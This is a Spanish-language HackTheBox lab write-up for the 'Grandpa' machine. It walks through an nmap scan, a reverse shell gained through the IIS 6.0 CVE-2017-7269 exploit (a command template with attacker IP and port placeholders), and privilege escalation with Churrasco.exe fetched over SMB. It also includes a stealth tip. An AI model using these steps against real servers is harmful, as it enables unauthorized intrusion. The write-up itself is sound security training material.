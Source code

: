 ```yaml
---
published: true
title: HackTheBox - Grandpa
date: '2021-11-04'
category: HackTheBox
description: WriteUp de la Máquina Grandpa de HackTheBox (Extrapolable a la máquina Granny)
---
```


![image-center](/assets/images/Grandpa_HTB/info.PNG)

## Reconocimiento inicial
Comenzaremos realizando un escaneo con ```nmap``` mediante el siguiente comando para la enumeración de puertos de la máquina

```bash
nmap -p- -sS --min-rate 5000 --open -n -Pn -vvv 10.10.10.242 -oG allports
```

![image-center](/assets/images/Grandpa_HTB/nmap-ports.PNG)

Obteniendo como resultado que el puerto 80 de la máquina está abierto. Luego procederemos a escanear las versiones y scripts con nmap a este puerto para recopilar más información aún.

![image-center](/assets/images/Grandpa_HTB/nmap-version.PNG)

Encontrando que el servidor web ejecuta un IIS 6.0 el cual es vulnerable a varios CVE.
Ingresando a la página en cuestión y utilizando Wappalyzer para buscar más información, no encontramos mucho más de lo que ya encontramos con el escaneo de versiones.

![image-center](/assets/images/Grandpa_HTB/web-inicial.PNG)

Por lo que procederemos a buscar algún CVE que nos sea de utilidad para conseguir una reverse shell.

## Reverse Shell

Después de un rato buscando se llegó al [CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269) el cual permite realizar una Reverse Shell a nuestro equipo de atacante.

![image-center](/assets/images/Grandpa_HTB/exploit-CVE-2017-7269.PNG)

Para ello clonamos el repositorio en nuestro directorio de trabajo, nos metemos en el directorio y ejecutamos la vulnerabilidad de la siguiente forma

```bash
python <nombre_exploit> <ip_target> <port_target> <ip_nuestra> <port_nuestro>
```

![image-center](/assets/images/Grandpa_HTB/revshell.PNG)

## Escalación de privilegios

Una vez dentro se intentó ir al directorio Harry quien posiblemente contenga la user-flag, sin embargo, no se pudo acceder.

![image-center](/assets/images/Grandpa_HTB/access-denied.PNG)

por lo que se procedio a ver que privilegios existen dentro de la máquina, encontrando que el SeImpersonatePrivilege está habilitado.

![image-center](/assets/images/Grandpa_HTB/whoami-priv.PNG)

Cuando este privilegio esta activado podemos ejecutar una herramienta para escalar privilegios que se llama JuicyPotato, sin embargo, la versión del Windows que estamos trabajando es Windows Server 2003.
Lo cual nos impide ejecutar el JuicyPotato por compatibilidad de las versiones. Para estos casos es que existe una herramienta similar llamada Churrasco.exe.

![image-center](/assets/images/Grandpa_HTB/churrasco.PNG)

Esta herramienta la podemos descargar desde [https://github.com/Re4son/Churrasco/raw/master/churrasco.exe](https://github.com/Re4son/Churrasco/raw/master/churrasco.exe), luego es necesario compartirla a la máquina objetivo.
Para ello se utilizó impacket con smb-server

![image-center](/assets/images/Grandpa_HTB/smb-traspaso.PNG)

Por temas de sigilo es recomendable, en general, trabajar en la carpeta temporal de las máquinas objetivos ya que suelen tener más permisos en general o suelen borrar la data que contienen al apagarse.

![image-center](/assets/images/Grandpa_HTB/transferencia-success.PNG)

## Flags

Una vez realizado lo anterior ya podemos ejecutar el binario, esto lo podemos hacer ejecutando el binario, agregando la flag "-d" y entre comillas indicando el comando a ejecutar.

![image-center](/assets/images/Grandpa_HTB/churrasco-ejecucion.PNG)

Con esto podríamos obtener una reverse shell como root a nuestra maquina subiendo un binario de Netcat, sin embargo, yo prefiero ir directamente por las banderas ya que podemos intuir donde están, ya que esto es un CTF.

### user.txt

![image-center](/assets/images/Grandpa_HTB/user-flag.PNG)

### root.txt

![image-center](/assets/images/Grandpa_HTB/root-flag.PNG)
